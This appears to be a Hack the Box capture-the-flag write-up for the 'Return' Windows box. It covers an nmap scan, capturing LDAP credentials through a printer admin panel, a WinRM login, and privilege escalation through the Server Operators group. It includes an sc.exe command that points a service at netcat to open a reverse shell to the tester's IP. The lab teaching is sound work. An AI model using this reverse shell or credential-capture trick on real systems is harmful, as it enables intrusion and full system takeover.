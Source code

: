 ```yaml
---
layout: post
title: "HTB: Return"
---
```


Return is an easy Windows box on the Hack the Box platform that focuses on abusing printer web admin panel on an active directory domain to get user LDAP credentials. Use them to log in using Evil-WinRM and discover some interesting privileges like **SeLoadDriverPrivilege** or **SeBackupPrivilege**. As a bonus the account is in the **Server Operators** group, which allows it to modify, start, and stop services. Which can be easily used to get a shell as SYSTEM.

# Recon

## nmap

```shell-session
sudo nmap -sC -sV -v -oA nmap_scan/nmap_results 10.129.95.241
```

nmap finds plenty of open ports, most interesting at the moment being ports **80** and **139,445** for **SMB**

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-30 09:38:44Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
52638/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 18m32s
| smb2-time: 
|   date: 2024-10-30T09:39:39
|_  start_date: N/A
```

## SMB - TCP 445

Dead end at the moment, maybe we will come back when we find some credentials.

![SMB](/Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-10-52.png)

## Web - TCP 80

The website is a 'HTB Printer Admin Panel'
![Web](/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-11-07.png)

# Shell as svc-printer

On the 'Settings' tab ther eis pre-filled form
![Web2](/HTB-Return/img/Screenshot_2024-10-30_05-11-18.png)

## Burp 

When using burp to check the POST request only one argument is send:

```
ip=printer.return.local
```
The other three fields in the form are not.
User can only change the Server Address ('ip'), and not port, username or password.

## Request

If we change the ip to our tun0 IP and start listener on port 389 we should catch some response.

![Request](/img/Screenshot_2024-10-30_05-11-42.png)
![Request2](./img/Screenshot_2024-10-30_05-11-58.png)

...and it’s trying to authenticate so we have username and password.

## WinRM

Credentials happen to work for WinRM, so we can get a shell usin Evil-WinRM

![WinRm_shell](./HTB-Return/img/Screenshot_2024-10-30_05-25-07.png)

and get the user flag

![WinRm_shell](./Writeups/HTB-Return/img/Screenshot_2024-10-30_05-31-22.png)

# Privilege Escalation

## Groups and Privileges

First of all, let's check our privileges,

![priv](./Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-50-08.png)

and also groups.

![priv2](./Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-50-21.png)

A lot can be done with privileges like **SeLoadDriverPrivilege** or **SeBackupPrivilege** but the **Server Operators** group is quite a catch.

## Reverse shell

Server Operators can modify, start, and stop services, we can abuse this by having it run nc64.exe to give us a reverse shell.

Upload the nc.exe 

![nc](./Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-52-04.png)

Now modify a service binary path, stop and restart the service:

```shell-session
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.45 4444"
```
![sh](./Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-25.png)

Start listener and as soon as we start the service again we catch the shell.

![sh2](./Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-54.png)

![sh2](./Content/Writeups/HTB-Return/img/Screenshot_2024-10-30_05-58-00.png)


